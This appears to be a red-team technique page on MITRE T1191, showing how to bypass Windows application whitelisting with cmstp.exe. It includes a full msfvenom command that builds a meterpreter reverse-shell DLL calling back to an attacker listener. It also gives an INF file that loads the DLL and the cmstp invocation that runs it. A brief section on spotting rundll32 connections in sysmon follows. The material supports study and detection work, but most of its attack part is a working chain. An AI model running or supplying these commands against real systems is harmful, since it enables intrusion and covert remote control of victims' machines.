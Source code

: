 ```yaml
---
description: CMSTP code execution - bypass application whitelisting.
---
```


# T1191: CMSTP

## Execution

Generating the a reverse shell payload as a DLL:

{% code-tabs %}
{% code-tabs-item title="evil.dll" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Creating a file that will be loaded by CSMTP.exe binary that will in turn load our evil.dll:

{% code-tabs %}
{% code-tabs-item title="f.inf" %}
```csharp
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Invoking the payload:

```csharp
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```

## Observations

Rundll32 is spawned which then establishes the connection back to the attacker:

![](../../.gitbook/assets/cmstp-rundll32.png)

A very privitive way of hunting for suspicious instances of rundll32 initiating connections would be skimming through the sysmon logs and looking for network connections being established by rundll32 immediately/soon after it had been spawned by cmstp.

Note how the connection was established one second after the process creation. This behaviour depends on what the payload is supposed to do, but if the payload is a reverse shell, it usually attempts connecting back immediately upon execution, which is exactly our case:

![](../../.gitbook/assets/cmstp-kibana%20%281%29.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1191" %}

{% embed url="https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/" %}



